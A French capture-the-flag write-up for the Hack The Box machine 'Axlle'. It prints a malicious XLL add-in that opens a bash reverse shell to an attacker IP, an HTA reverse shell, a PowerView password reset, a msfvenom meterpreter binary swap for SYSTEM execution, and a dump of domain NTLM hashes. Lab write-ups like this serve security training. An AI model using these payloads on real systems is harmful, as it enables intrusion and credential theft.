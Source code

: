 # htb_axlle

### Trouver l’adresse et service  
Configurer correctement le VPN et obtenir l'adresse：10.10.11.21 
`nmap -sSvc 10.10.11.21`

![nmap](./images/nmap.png)

De nombreux ports ont été ouverts. Jetons un coup d'œil aux ports clés 80 et 445.

### Vérifiez les ports on trouvé

Port 80

![nmap](./images/dirsearch.png)

Port 445

![nmap](./images/smb.png)

L’accès anonyme n’est pas possible non plus, donc il ne reste plus qu’à vérifier les autres ports.

J’ai remarqué le service SMTP sur le port 25 (en me référant à un rapport, il y a la possibilité d’utiliser XLL-EXEC pour envoyer un fichier à l’utilisateur admin et obtenir un accès shell).

### Essayez d'abord d'envoyer un article à l'administrateur (le compte administrateur est affiché dans l'interface Web)

`
swaks --to accounts@axlle.htb --from test@test.test --header "Subject: 111" --body "just a test"  --attach test.txt

`
![nmap](./images/25.png)

La vérification des informations montre que le fichier txt a été téléchargé sur le serveur de l'autre partie.

Après avoir essayé ici, j'ai découvert que d'autres formats de fichiers ne peuvent pas être téléchargés, seuls les fichiers XLL peuvent être téléchargés.

## XLL-EXEC

https://swisskyrepo.github.io/InternalAllTheThings/redteam/access/office-attacks/#xll-exec

Copiez les fichiers et modifiez-les, et remplacez Powershell#3 (Base64) par le shell de rebond

`
#include <windows.h>

__declspec(dllexport) void __cdecl xlAutoOpen(void);

void __cdecl xlAutoOpen() {
    WinExec("bash -c 'bash -i >& /dev/tcp/192.168.66.3/9100 0>&1'", 1);
}

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
) {
    switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

`

Utilisez gcc pour compiler des fichiers C en fichiers xll
`
x86_64-w64-mingw32-gcc -fPIC -shared -o shell.xll exploit.c -luser32

`
Envoyez le fichier xll au compte administrateur et attendez l'exécution
`
swaks --to accounts@axlle.htb --from test@test.test --header "Subject: 111" --body "give me a shell"  --attach shell.xll

`

![nmap](./images/nc.png)

L'hôte ayant ouvert le service de messagerie, accédez à l'annuaire pour trouver des informations.
`
cd "C:\Program Files (x86)\hmailserver\"

`
Dans C:\Program Files (x86)\hmailserver\data\axlle.htb\dallon.matrix\2F>, il y a un fichier eml, affichez-le en tapant *

![nmap](./images/file.png)

### reverse shell hta
Un script d'automatisation est utilisé pour tester l'URL, en plaçant l'URL dans le dossier `C:\inetpub\testing`. Le fichier `priv.url` contient l'emplacement du script HTA, dans lequel vous devez ajouter un code de reverse shell.

`
#priv.url
[InternetShortcut]
URL=C:\Users\Public\Downloads\shell.hta

#shell.hta
<html>
<head>
<script language="jscript">
        var c = "bash -c 'bash -i >& /dev/tcp/192.168.66.3/9200 0>&1'"; 
        new ActiveXObject('WScript.Shell').Run(c);
</script>
</head>
<body>
<script>self.close();</script>
</body>
</html>

`

![nmap](./images/9200.png)

Téléchargez un "sharphound" pour afficher les informations sur le domaine,donc téléchargez le fichier localement et utilisez Bloodhound pour l'analyse

![nmap](./images/blood.png)

### Réinitialiser le mot de passe utilisateur

On peut voir que le groupe "web devs" a l'autorisation de modifier le mot de passe de l'utilisateur jacob.greeny. Utilisez l'outil PowerView pour modifier son mot de passe.
`
. .\PowerView.ps1
$UserPassword = ConvertTo-SecureString 'Test123!' -AsPlainText -Force
Set-DomainUserPassword -Identity JACOB.GREENY -AccountPassword $UserPassword

`
Après modification, utilisez evil-winrm pour vous connecter à l'utilisateur.

![nmap](./images/modification.png)

### Réécrire le fichier

Vous avez trouvé un fichier README.md sous C:\App Development\kbfiltr, vérifiez-le

![nmap](./images/rewrite.jpg)

Il est à noter que le fichier `C:\Program Files (x86)\Windows Kits\10\Testing\StandaloneTesting\Internal\x64\standalonerunner.exe` sera exécuté en tant que fichier système. Commencez par vérifier les autorisations de ce dossier.
`
icacls "C:\Program Files (x86)\Windows Kits\10\Testing\StandaloneTesting\Internal\x64"

`
![nmap](./images/icacls.jpg)

On remarque que `Everyone` possède les permissions d'exécution et de lecture. Remplacez-le par votre propre payload.

`
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.36 LPORT=9500 -f exe -o standalonerunner.exe

`

![nmap](./images/shell.jpg)

Exporter le hash NTLM, ici le hash de Jacob correspond à la valeur avant la modification du mot de passe.

`
Administrator:500:aad3b435b51404eeaad3b435b51404ee:6322b5b9f9daecb0fefd594fa6fafb6a:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:6d92f4784b46504cf3bedbc702ac03fe:::
david.brice:1109:aad3b435b51404eeaad3b435b51404ee:0279f2a1f290ff139458088afb45fa3f:::
frankie.rose:1110:aad3b435b51404eeaad3b435b51404ee:80c10c678c9b31e2091065c90519e529:::
brad.shaw:1111:aad3b435b51404eeaad3b435b51404ee:9cefad58a9a2188687922a6cc10485a3:::
samantha.jade:1112:aad3b435b51404eeaad3b435b51404ee:8047ec8cda0666f4e1c1be0ddc2d0378:::
gideon.hamill:1113:aad3b435b51404eeaad3b435b51404ee:aa753e07e1fd47a45e0ecb3a0cc70dab:::
xavier.edmund:1114:aad3b435b51404eeaad3b435b51404ee:9ecaa82cc22e0e1534493a03276dc02b:::
emily.cook:1115:aad3b435b51404eeaad3b435b51404ee:b35775e6e9d3af6c0dcf33cef162986d:::
brooke.graham:1116:aad3b435b51404eeaad3b435b51404ee:bcd1044566a9fb7fe130bdd5bcce7db1:::
trent.langdon:1117:aad3b435b51404eeaad3b435b51404ee:a4bbfacd030508d12f3a203bbab8b1f8:::
matt.drew:1118:aad3b435b51404eeaad3b435b51404ee:eb116285721b66b71d98803716b94616:::
jess.adams:1119:aad3b435b51404eeaad3b435b51404ee:933d10a14def0ed5ffbd708092d92e4d:::
jacob.greeny:1120:aad3b435b51404eeaad3b435b51404ee:805175c3d08be3027ed63e88a944f736:::
simon.smalls:1121:aad3b435b51404eeaad3b435b51404ee:d14ddd0880870e9d7fcb442653b6183e:::
dan.kendo:1122:aad3b435b51404eeaad3b435b51404ee:3fa7f786ca68123db7fdef522cb93a22:::
lindsay.richards:1123:aad3b435b51404eeaad3b435b51404ee:71d62e4384f2e9b92169a10a29539b2d:::
calum.scott:1124:aad3b435b51404eeaad3b435b51404ee:35a376bb58095b4a559fbceccdb01364:::
dallon.matrix:1125:aad3b435b51404eeaad3b435b51404ee:124a4a99bf67ca4b04e2266f967daa64:::
baz.humphries:1126:aad3b435b51404eeaad3b435b51404ee:ecfc37e6e4797f9ae97b61f0265c0561:::
MAINFRAME$:1000:aad3b435b51404eeaad3b435b51404ee:011a082f7649082b7fe7521c2ae2bb2a:::

`
